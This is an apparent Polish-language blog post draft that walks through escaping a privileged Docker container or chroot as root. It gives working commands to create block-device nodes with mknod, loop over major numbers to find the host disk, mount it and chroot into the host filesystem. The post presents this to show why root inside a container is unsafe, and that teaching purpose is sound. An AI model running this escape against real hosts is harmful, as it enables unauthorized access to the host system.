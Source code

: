Hacking the chroot/docker
#########################

:keywords: linux, chroot, hacking, docker
:tags: linux, chroot, hacking, docker
:date: 2019-03-03
:Status: draft
:slug: chroot-breaking-1


W tym poście pokażę jak mając *root* w *chroot* dostać się do systemu nadzorcy.  
Tym samym chcę pokazać, dlaczego nie należy przyznawać praw administratora użytkownikowi nawet w *chroot*.

Crash course
------------

.. youtube:: TQRcC2OEHn8

Ponieważ *docker* (podobnie jak większość technologi kontenerowych) używa *chroot*-a, wyjście z *chroot* czy *docker* sprowadza się do tej samej metody.
Poniższa metoda wymaga posiadania konta *root* w kontenerze uruchomionego z uprawnieniami *privileged* (w przypadku *docker*)

.. code-block:: console

    # docker run -it --privileged centos /bin/bash
    # mknod /tmp/host_disk b 259 1
    # mount /tmp/host_disk /mnt/
    # chroot /mnt/ /bin/bash

Analiza metody
--------------

.. youtube:: CVRyg4fYdq4

Metoda ta wykorzystuje *chroot* do *filesystem*-u systemu głównego.
Ponieważ w *chroot* najczęściej nie mamy zamontowanego katalogu ``/dev/``, a tym samym, nie możemy zamontować *filesystem*-u nadzorcy, musimy samodzielnie utworzyć urządzenie odpowiadające dyskowi z tymże *filesystem*-em.

Urządzenia w Linuksie są specjalnymi plikami.
W kontekście urządzeń, najczęściej wyróżniamy urządzenia blokowe oraz znakowe.
Urządzenia znakowe, jak sama nazwa wskazuje, prowadzą komunikację znak po znaku, natomiast urządzenia blokowe poprzez bloki.
Najczęściej również urządzenia znakowe pozwalają jedynie na odczyt i zapis. Takimi urządzeniami mogą być mysz, klawiatura, urządzenie ``/dev/random``, pseudo-terminale.
Urządzenia blokowe najczęściej pozwalają na adresowanie oraz dowolny dostęp. Przykładem takiego urządzenia jest np: dysk twardy, cdrom.

Każdy specjalny plik reprezentujący urządzenie jest określany przez trzy parametry:

- typ: czy jest to urządzenie blokowe, czy znakowe
- major: numer główny typu urządzenia
- minor: numer pomocniczy typu urządzenia

Jądro systemu Linuks bazując na typie oraz numerach major i minor wie do którego sterownika przekierować obsługę operacji na danym urządzeniu.
Lista zdefiniowanych numerów major i minor wraz z typami znajduje się w `dokumentacji jądra Linuksa`_

Aby utworzyć specjalny plik urządzenia, należy użyć polecenia ``mknod``.
I tutaj pojawia się problem.
Ponieważ musimy znać major i minor dysku, dla którego chcemy utworzyć plik urządzenia, dlatego *odgadnięcie* tych wartości jest jedyną trudnością jaka nas czeka.
Posiłkując się dokumentacją widzimy, że urządzenia blokowe o majorze 3, to są dyski IDE, natomiast major 8 to są dyski SCSI.
Warto rozpocząć szukanie odpowiedniego dysku od tych wartości.
Jeżeli nie jest to żaden ze standardowych dysków, można w pętli utworzyć wszystkie urządzenia próbując znaleźć odpowiednie.

.. code-block:: console

    # docker run --rm -it --privileged centos /bin/bash
    # mkdir /tmp/devices
    # cd /tmp/devices/
    # for i in $(seq 1 300); do mknod device_$i b $i 0; done
    # ls -l
    brw-r--r--. 1 root root   1, 0 Feb 10 16:57 device_1
    brw-r--r--. 1 root root  10, 0 Feb 10 16:57 device_10
    brw-r--r--. 1 root root 100, 0 Feb 10 16:57 device_100
    brw-r--r--. 1 root root 101, 0 Feb 10 16:57 device_101
    brw-r--r--. 1 root root 102, 0 Feb 10 16:57 device_102
    brw-r--r--. 1 root root 103, 0 Feb 10 16:57 device_103
    brw-r--r--. 1 root root 104, 0 Feb 10 16:57 device_104
    (...)
    # fdisk  -l * 2>/dev/null
    Disk device_1: 16 MB, 16777216 bytes, 32768 sectors
    Units = sectors of 1 * 512 = 512 bytes
    Sector size (logical/physical): 512 bytes / 512 bytes
    I/O size (minimum/optimal): 512 bytes / 512 bytes
    
    Disk device_253: 44.0 GB, 44023414784 bytes, 85983232 sectors
    Units = sectors of 1 * 512 = 512 bytes
    Sector size (logical/physical): 512 bytes / 512 bytes
    I/O size (minimum/optimal): 512 bytes / 512 bytes
    Disk label type: dos
    Disk identifier: 0x0009b93d
    
          Device Boot      Start         End      Blocks   Id  System
    device_253p1   *        2048    83886079    41942016   83  Linux

Widzimy, że tylko dwa urządzenia zostały rozpoznane: ``device_1`` oraz ``device_253``.
``device_1`` to ``RAM disk``, więc nas nie interesuje, natomiast drugie urządzenie wygląda jak dysk nadzorcy.
Gdyby nie udało się tutaj znaleźć interesującego nas dysku, należałoby rozszerzyć poszukiwania o numery minorów inne niż 0.
Ponieważ minor 0 oznacza cały dysk, a my musimy uzyskać dostęp do partycji, musimy utworzyć urządzenie tejże partycji.

.. code-block:: console

    # mknod device_253_1 b 253 1

Mając takie urządzenie, możemy przystąpić do standardowej procedury wykonania *chroot*, czyli zamontowanie partycji oraz wykonanie polecenia ``chroot``.

.. code-block:: console

    # mount device_253_1 /mnt/
    # chroot /mnt/ /bin/bash

Tym sposobem udało nam się dostać do systemu nadzorcy wychodząc z *chroot* w którym posiadaliśmy prawa *root*.

.. _dokumentacji jądra Linuksa: https://github.com/torvalds/linux/blob/master/Documentation/admin-guide/devices.txt

